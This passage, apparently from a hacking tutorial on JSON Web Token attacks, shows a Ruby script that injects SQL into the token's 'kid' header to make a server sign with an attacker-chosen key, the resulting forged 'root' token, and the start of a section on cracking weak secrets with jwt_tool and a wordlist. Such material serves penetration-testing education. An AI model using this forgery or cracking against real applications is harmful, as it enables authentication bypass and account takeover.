 ```json
{
"alg" : "HS256",
"typ" : "JWT",
"kid" : "1"
}
```

If SQLi is possible in KID we can forge our own `root` account token using a simple ruby / python script or manually.

#### Ruby Script

```ruby

require 'base64'
require 'openssl'

header = '{"typ": "JWT","alg": "HS256","kid": "keynotpresent\' UNION SELECT \'newkey"}'
payload = '{"user": "root"}'

header_payload = Base64.strict_encode64(header)+"."+ Base64.strict_encode64(payload)
header_payload.gsub!("=","")

secret = "newkey"

signature = Base64.urlsafe_encode64(OpenSSL::HMAC.digest(OpenSSL::Digest.new("sha256"), secret, header_payload))

token = header_payload+"."+signature
puts token
```

#### Explaination

The script imports `base64` and `openssl` modules and the real trick is in `header` the payload forces application to sign the token with key value `newkey` because `keynotpresent` does not exist in the database so it will use `newkey` as it's secret and sign it and we know that secret so we can forge our token easily and sign them.

#### Token After Running the Script

`eyJ0eXAiOiAiSldUIiwiYWxnIjogIkhTMjU2Iiwia2lkIjogImtleW5vdHByZXNlbnQnIFVOSU9OIFNFTEVDVCAnbmV3a2V5In0.eyJ1c2VyIjogInJvb3QifQ.zRLDqEZ1tQC8atcO7bjvHaSTTpEefORDyqgFUnZH4Ok`

### Cracking JWTs Secret

Sometimes developers use common terms as a token secret.
If that's the case we can crack them easily. We can use [jwt_tool](https://github.com/ticarpi/jwt_tool) let's see how.

First let's Prepare a wordlist:

```bash
password
Password123
admin
root
hackingbible
```
